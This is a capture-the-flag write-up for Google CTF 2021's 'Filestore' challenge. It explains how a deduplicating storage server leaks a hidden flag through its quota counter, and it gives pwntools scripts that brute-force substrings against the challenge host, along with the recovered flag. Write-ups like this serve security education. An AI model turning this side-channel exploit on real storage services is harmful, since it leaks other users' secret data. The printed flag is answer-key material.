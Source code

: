 ```yaml
---
description: >-
  We stored our flag on this platform, but forgot to save the id. Can you help
  us restore it?
---
```


# Filestore

## Analysis

When running the program, we have 4 options.

```text
➜  Google ./filestore.py          
Welcome to our file storage solution.

Menu:
- load
- store
- status
- exit
```

Let's first look at the source code for saving and loading files.

First, all data is stored in `blob`:

```python
# It's a tiny server...
blob = bytearray(2**16)
files = {}
used = 0
```

The storing of data works through deduplication. I've added some comments to the source code to make it more understandable:

```python
# Use deduplication to save space.
def store(data):
    nonlocal used
    MINIMUM_BLOCK = 16
    MAXIMUM_BLOCK = 1024
    part_list = []
    while data:
        prefix = data[:MINIMUM_BLOCK]
        ind = -1
        bestlen, bestind = 0, -1

        # Find the best 'matching' part of the blob
        while True:
            ind = blob.find(prefix, ind+1)
            if ind == -1: break
            length = len(os.path.commonprefix([data, bytes(blob[ind:ind+MAXIMUM_BLOCK])]))
            if length > bestlen:
                bestlen, bestind = length, ind

        # Store the index of the match 
        if bestind != -1:
            part, data = data[:bestlen], data[bestlen:]
            part_list.append((bestind, bestlen))

        # Append to the end
        else:
            part, data = data[:MINIMUM_BLOCK], data[MINIMUM_BLOCK:]
            blob[used:used+len(part)] = part
            part_list.append((used, len(part)))
            used += len(part)
            assert used <= len(blob)

    fid = "".join(secrets.choice(string.ascii_letters+string.digits) for i in range(16))
    files[fid] = part_list

    return fid
```

Each 'file' is essentially represented by indices on the `blob` bytearray. If the new data is a duplicate of existing data, then no new data is stored onto the bytearray. Instead, the file is represented by an index pointing to the duplicated data.

For the purposes of analysis, we can print the first few bytes of `blob` and the `part_list`.

Here's an example:

```python
➜  Google ./filestore.py
Welcome to our file storage solution.

# Saving the flag into the blob
bytearray(b'testflag\x00\x00')
[(0, 8)]

Menu:
- load
- store
- status
- exit
store
Send me a line of data...
test

# Duplicated data at index 0
bytearray(b'testflag\x00\x00')
[(0, 4)]

Stored! Here's your file id:
tObXrn5TRAMIGl6W
```

Now, if we look at the `status` command, we see that the 'Quota' represents the used space in the `blob` bytearray. Since duplicated data was stored, the quota remains at 0.008kB.

```text
status
User: ctfplayer
Time: Mon Jul 19 00:16:34 2021
Quota: 0.008kB/64.000kB
Files: 2
```

This is very helpful to us - it allows us to check whether the data we are storing is a substring of the flag. If it is a substring, then the quota should remain the same. Otherwise, new data is stored and the used quota increases.

## Solving

This observation allows us to do a fairly trivial check for which characters are found in the flag. By sending each possible character and checking the quota value afterwards, we can confirm whether or not that character is found in the flag.

```python
from pwn import *
import string
import re

result = ''

conn = remote('filestore.2021.ctfcompetition.com', 1337)
conn.recv()
conn.recv()
conn.send('status\r\n')

received = conn.recvuntil('Menu').decode()
match = re.search(r'Quota: (.+)/64.000kB', received)

target_quota = match[1]

conn.close()

valid = []

for char in string.ascii_letters + string.digits + '{}_':
    conn = remote('filestore.2021.ctfcompetition.com', 1337)
    conn.recv()
    conn.send('store\r\n')
    conn.recv()
    conn.send(f'{char}\r\n')
    conn.recvuntil('Menu')

    conn.send('status\r\n')
    received = conn.recvuntil('Menu').decode()
    match = re.search(r'Quota: (.+)/64.000kB', received)

    quota = match[1]
    if quota == target_quota:
        print(f"{char} works!")
        valid.append(char)

    conn.close()

print(valid)
```

But how do we get the flag? Checking each possible permutation of these valid characters would take too long, but we can reduce the time complexity by checking valid 2-character permutations, then combine these to check for valid 4-character permutations, and so on. This reduces the total number of permutations we have to check since it eliminates a lot of possible permutations early on.

```python
from itertools import product

valid_n_chars = {1: valid}

LEN_FLAG = 26

i = 2
while i <= LEN_FLAG:

    result = []

    permutations = [''.join(x) for x in product(valid_n_chars[i // 2], repeat = 2)]
    num_permutations = len(permutations)

    count = 0
    for permutation in permutations:
        flag = ''.join(permutation)

        print(f"Trying {flag}...")

        conn = remote('filestore.2021.ctfcompetition.com', 1337)
        conn.recv()
        conn.send('store\r\n')
        conn.recv()
        conn.send(f'{flag}\r\n')
        conn.recvuntil('Menu')

        conn.send('status\r\n')
        received = conn.recvuntil('Menu').decode()
        match = re.search(r'Quota: (.+)/64.000kB', received)

        quota = match[1]
        if quota == target_quota:
            print(f"{flag} works!")
            result.append(flag)

        conn.close()

        if count % 10 == 0:
            print('Progress:', count / num_permutations)
        count += 1

    valid_n_chars[i] = result
    i *= 2

    print('Valid results:', result)
```

This eventually outputs all valid 16-character substrings of the flag.

![](../../.gitbook/assets/filestore%20%281%29.png)

From here, we can reconstruct the flag: `CTF{CR1M3_0f_d3dup1ic4ti0n}`

